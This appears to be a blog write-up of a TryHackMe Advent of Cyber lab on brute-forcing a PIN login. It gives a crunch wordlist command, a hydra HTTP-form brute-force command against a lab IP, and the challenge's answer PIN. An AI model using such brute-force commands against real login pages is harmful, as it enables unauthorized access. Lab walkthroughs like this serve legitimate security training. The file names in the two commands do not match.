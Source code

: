 ```yaml
---
title: "Advent of Cyber Day 3"
date: 2023-12-3 00:00:00 +0800
categories: [Blogs, THM]
tags: [THM, Advent of Cyber ]
---
```


The advent of cyber is a set of daily challenges set up by THM and various industy experts.
This is a great way to stay fresh on learned material and learn something new. The second day is focused on brute forcing using Hydra and Crunch 

## Learning Objectives

* Password complexity and the number of possible combinations
* How the number of possible combinations affects the feasibility of brute force attacks
* Generating password combinations using crunch
* Trying out passwords automatically using hydra

## Writeup


### Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag? 
    crunch 3 3 0123456789ABCDEF -o 3digit.txt

    hydra -l '' -P 3digits.txt -f -v 10.10.18.129 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
<details>  
    <summary> <b>Solution </b> </summary>
       6F5
</details>
